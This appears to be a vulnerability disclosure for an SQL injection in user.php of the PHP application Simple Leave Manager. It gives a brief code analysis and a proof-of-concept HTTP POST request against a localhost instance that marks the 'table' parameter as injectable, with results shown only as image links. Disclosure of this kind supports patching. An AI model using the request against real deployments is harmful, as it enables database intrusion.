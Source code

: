 # Simple Leave Manager has sql injection in user.php

## supplier 
https://code-projects.org/simple-leave-manager-in-php-with-source-code/
## Vulnerability file
user.php

## describe

**Code analysis**   

In the user.php file of Simple Leave Manager, theuser table parameter is obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/0d0d3636-8a47-4eb0-a69c-e835a06ad493.png)


## POC

```
POST /leave/user.php HTTP/1.1
Host: 127.0.0.1:8083
Content-Length: 79
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8083/leave/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=3kjl5a441f8jf2fprb2b9k3h7v
Connection: close

login-type=staff&table=employee&page=dashboard.php&username=1&password=1&login=
```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/591ff4dd-1e1d-44bc-862b-934af4d1fbce.png)
Get payload:
![image-2025](https://github.com/asd1238525/cve/blob/main/22c7f983-a52a-4dbf-a741-506fe5215e32.png)
